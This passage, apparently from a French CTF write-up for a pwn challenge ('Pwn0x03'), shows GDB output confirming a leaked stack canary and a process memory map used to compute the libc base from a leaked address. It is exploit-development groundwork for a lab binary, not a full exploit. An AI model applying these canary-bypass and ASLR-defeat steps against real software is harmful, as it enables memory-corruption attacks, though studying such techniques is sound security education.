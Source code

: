 ```gdb
gef➤  p $rcx
$2 = 0x4d117625f73cce00
```

`xor    rcx, QWORD PTR fs:0x28` est l'instruction vérifiant le `canary` à la fin de la fonction `main`. `rcx` le contient donc, et on peut voir qu'il correspond au leak un peu plus haut.

Pour calculer les adresses nécessaires dans notre exploit, il va falloir connaître l'offset entre la première adresse de la `libc`, et notre leak (`0x7ffff7df9083 <__libc_start_main+243>:	mov    edi,eax`). Allons chercher les données nécessaires dans GDB :

```gdb
gef➤  info proc map
process 35606
Mapped address spaces:

          Start Addr           End Addr       Size     Offset  Perms  objfile
      0x555555554000     0x555555555000     0x1000        0x0  r--p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/task_patched
      0x555555555000     0x555555556000     0x1000     0x1000  r-xp   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/task_patched
      0x555555556000     0x555555557000     0x1000     0x2000  r--p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/task_patched
      0x555555557000     0x555555558000     0x1000     0x2000  r--p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/task_patched
      0x555555558000     0x55555555b000     0x3000     0x3000  rw-p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/task_patched
      0x7ffff7dd5000     0x7ffff7df7000    0x22000        0x0  r--p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/libc.so.6
      0x7ffff7df7000     0x7ffff7f6f000   0x178000    0x22000  r-xp   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/libc.so.6
      0x7ffff7f6f000     0x7ffff7fbd000    0x4e000   0x19a000  r--p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/libc.so.6
      0x7ffff7fbd000     0x7ffff7fc1000     0x4000   0x1e7000  r--p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/libc.so.6
      0x7ffff7fc1000     0x7ffff7fc3000     0x2000   0x1eb000  rw-p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/libc.so.6
      0x7ffff7fc3000     0x7ffff7fc9000     0x6000        0x0  rw-p   
      0x7ffff7fc9000     0x7ffff7fcd000     0x4000        0x0  r--p   [vvar]
      0x7ffff7fcd000     0x7ffff7fcf000     0x2000        0x0  r-xp   [vdso]
      0x7ffff7fcf000     0x7ffff7fd0000     0x1000        0x0  r--p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/ld-2.31.so
      0x7ffff7fd0000     0x7ffff7ff3000    0x23000     0x1000  r-xp   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/ld-2.31.so
      0x7ffff7ff3000     0x7ffff7ffb000     0x8000    0x24000  r--p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/ld-2.31.so
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x2c000  r--p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/ld-2.31.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x2d000  rw-p   /home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/ld-2.31.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0  rw-p   
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rw-p   [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0  --xp   [vsyscall]
```
